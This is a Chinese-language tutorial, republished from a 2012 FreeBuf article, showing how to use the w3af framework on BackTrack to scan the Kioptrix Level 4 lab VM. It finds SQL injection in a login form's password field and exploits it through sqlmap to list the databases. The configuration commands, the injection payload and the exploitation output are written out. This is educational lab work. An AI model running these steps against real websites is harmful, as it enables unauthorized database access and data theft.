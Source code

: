 ```yaml
---
title: "w3af 简单使用教程"
pubDate: 2012-08-25T21:36:30+08:00
lastmod: 2012-08-25T21:37:30+08:00
keywords: [w3af 简单使用教程]
description: "w3af 简单使用教程"
categories: [Misc]

---
```


本文为 2012 年在 [FreeBuf](https://www.freebuf.com/ "FreeBuf") 发表的文章，原地址为：[w3af 简单使用教程](https://www.freebuf.com/articles/5472.html "w3af 简单使用教程")。以下内容均无修改。

w3af是一个Web应用程序攻击和检查框架.该项目已超过130个插件,其中包括检查网站爬虫,SQL注入(SQL Injection),跨站(XSS),本地文件包含(LFI),远程文件包含(RFI)等.该项目的目标是要建立一个框架,以寻找和开发Web应用安全漏洞,所以很容易使用和扩展.

<!--more-->

## 0×00 概述

在BackTrack5R3下使用w3af测试Kioptrix Level 4的SQL注入漏洞.

## 0×01 简介

w3af是一个Web应用程序攻击和检查框架.该项目已超过130个插件,其中包括检查网站爬虫,SQL注入(SQL Injection),跨站(XSS),本地文件包含(LFI),远程文件包含(RFI)等.该项目的目标是要建立一个框架,以寻找和开发Web应用安全漏洞,所以很容易使用和扩展.

## 0×02 安装

```shell
root@bt:~# apt-get install w3af
```

## 0×03 启动

```shell
root@bt:~# cd /pentest/web/w3af/
root@bt:/pentest/web/w3af# ./w3af_console
```

## 0×04 漏洞扫描配置

```plaintext
w3af>>> plugins
//进入插件模块
w3af/plugins>>> list discovery 
//列出所有用于发现的插件
w3af/plugins>>> discovery findBackdoor phpinfo webSpider 
//启用findBackdoor phpinfo webSpider这三个插件
w3af/plugins>>> list audit 
//列出所有用于漏洞的插件
w3af/plugins>>> audit blindSqli fileUpload osCommanding sqli xss 
//启用blindSqli fileUpload osCommanding sqli xss这五个插件
w3af/plugins>>> back
//返回主模块
w3af>>> target
//进入配置目标的模块
w3af/config:target>>> set target http://192.168.244.132/
//把目标设置为http://192.168.244.132/
w3af/config:target>>> back
//返回主模块
```

## 0×05 漏洞扫描

```plaintext
w3af>>> start
```

```plaintext
---
New URL found by phpinfo plugin: http://192.168.244.132/
New URL found by phpinfo plugin: http://192.168.244.132/checklogin.php
New URL found by phpinfo plugin: http://192.168.244.132/index.php
New URL found by webSpider plugin: http://192.168.244.132/
New URL found by webSpider plugin: http://192.168.244.132/checklogin.php
New URL found by webSpider plugin: http://192.168.244.132/index.php
Found 3 URLs and 8 different points of injection.
The list of URLs is:
- http://192.168.244.132/index.php
- http://192.168.244.132/checklogin.php
- http://192.168.244.132/
The list of fuzzable requests is:
- http://192.168.244.132/ | Method: GET
- http://192.168.244.132/ | Method: GET | Parameters: (mode="phpinfo")
- http://192.168.244.132/ | Method: GET | Parameters: (view="phpinfo")
- http://192.168.244.132/checklogin.php | Method: GET
- http://192.168.244.132/checklogin.php | Method: POST | Parameters: (myusername="", mypassword="")
- http://192.168.244.132/index.php | Method: GET
- http://192.168.244.132/index.php | Method: GET | Parameters: (mode="phpinfo")
- http://192.168.244.132/index.php | Method: GET | Parameters: (view="phpinfo")
Blind SQL injection was found at: "http://192.168.244.132/checklogin.php", using HTTP method POST. The injectable parameter is: "mypassword". This vulnerability was found in the requests with ids 309 to 310.
A SQL error was found in the response supplied by the web application, the error is (only a fragment is shown): "supplied argument is not a valid MySQL". The error was found on response with id 989.
A SQL error was found in the response supplied by the web application, the error is (only a fragment is shown): "mysql_". The error was found on response with id 989.
SQL injection in a MySQL database was found at: "http://192.168.244.132/checklogin.php", using HTTP method POST. The sent post-data was: "myusername=John&Submit=Login&mypassword=d'z"0". The modified parameter was "mypassword". This vulnerability was found in the request with id 989.
Scan finished in 19 seconds.
---
//开始扫描
```

## 0×06 漏洞利用配置

```plaintext
w3af>>> exploit 
//进入漏洞利用模块
w3af/exploit>>> list exploit
//列出所有用于漏洞利用的插件
w3af/exploit>>> exploit sqlmap 
//使用sqlmap进行SQL注入漏洞的测试
```

```plaintext
---
Trying to exploit using vulnerability with id: [1010, 1011]. Please wait...
Vulnerability successfully exploited. This is a list of available shells and proxies:
- [0] <sql object ( dbms: "MySQL >= 5.0.0" | ruser: "root@localhost" )>
Please use the interact command to interact with the shell objects.
---
//测试存在SQL注入漏洞
//这里要记住shell objects(这里是0),等一下要用到
0x07 漏洞利用
w3af/exploit>>> interact 0
//interact + shell object就可以利用了

---
Execute "exit" to get out of the remote shell. Commands typed in this menu will be run through the sqlmap shell
w3af/exploit/sqlmap-0>>> 
---
//sqlmap的一个交互式模块

w3af/exploit/sqlmap-0>>> dbs   

---
Available databases:  [3]:
[*] information_schema
[*] members
[*] mysql
---
//成功获得数据库信息
```

